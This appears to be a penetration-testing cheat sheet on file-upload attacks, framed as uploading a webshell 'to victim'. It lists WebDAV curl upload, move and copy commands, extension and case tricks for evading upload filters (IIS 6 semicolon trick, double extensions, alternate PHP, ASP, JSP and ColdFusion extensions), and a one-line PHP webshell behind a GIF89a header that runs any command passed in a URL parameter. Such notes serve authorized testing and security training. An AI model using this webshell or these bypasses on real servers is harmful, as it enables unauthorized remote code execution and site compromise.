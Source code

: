 # File Upload
If try to upload webshell to victim check how the exploit is done.
Check any bad characters

e.g. $XXX is taken as variable in bash, need to use \$ to escape

### WebDav  

upload file:  
curl -T '/path/to/local/file.txt' 'https://example.com/test/'  
curl --upload-file \<file> http://\<IP>/test/\<filename>  

curl -X MOVE --header 'Destination:http://example.org/new.txt' 'https://example.com/old.txt'  
curl -X COPY --header 'Destination:http://example.org/new.txt' 'https://example.com/old.txt'  

login:  
curl --user 'user:pass' 'https://example.com'  

Upload bypass:  
https://www.owasp.org/index.php/Unrestricted_File_Upload  
https://soroush.secproject.com/blog/tag/unrestricted-file-upload/  
 
IIS 6.0 or below
Asp > upload as test.txt, copy or move file as test.asp;.txt

Php > upload as pHp / phP / test.php.jpg / 

php - phtml, .php, .php3, .php4, .php5, and .inc

asp - asp, .aspx

perl - .pl, .pm, .cgi, .lib

jsp - .jsp, .jspx, .jsw, .jsv, and .jspf

Coldfusion - .cfm, .cfml, .cfc, .dbm

Add:   

GIF89a;
<?
system($_GET['cmd']);//or you can insert your complete shell code
?>


### Options
Use options to check for upload method.

upload function. Is put allowed?

